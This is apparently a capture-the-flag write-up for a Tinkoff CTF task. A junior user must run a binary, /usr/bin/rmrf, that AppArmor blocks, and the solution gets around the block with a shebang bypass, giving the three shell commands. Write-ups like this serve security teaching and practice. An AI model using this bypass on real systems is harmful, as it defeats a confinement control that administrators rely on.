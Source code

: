 # Пиковая дама

## Task
[Task link](https://ctf.tinkoff.ru/tasks/gamearmor)

Учёные создали суперкомпьютер, а младший научный сотрудник решил разогнать его до пиковых значений в игре и похвастаться скриншотами на форуме. Всё получилось, но потом сработал механизм защиты — сотрудник не может удалить игру и замести следы. Помогите ему.

ssh junior@t-gamearmor-dfr4zybw.spbctf.net

## Solution

Find AppArmor policy in notes.txt
```bash
cat /home/senior/notes.txt
```

We need to run `/usr/bin/rmrf` binary.

If we just try to run, we will get premission denied.
```bash
junior@supercomputer:~$ /usr/bin/rmrf
bash: /usr/bin/rmrf: Permission denied
```

Just use [AppArmor Shebang Bypass](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass).

```bash
echo '#!/usr/bin/rmrf' > rmrf
chmod +x rmrf
./rmrf
```
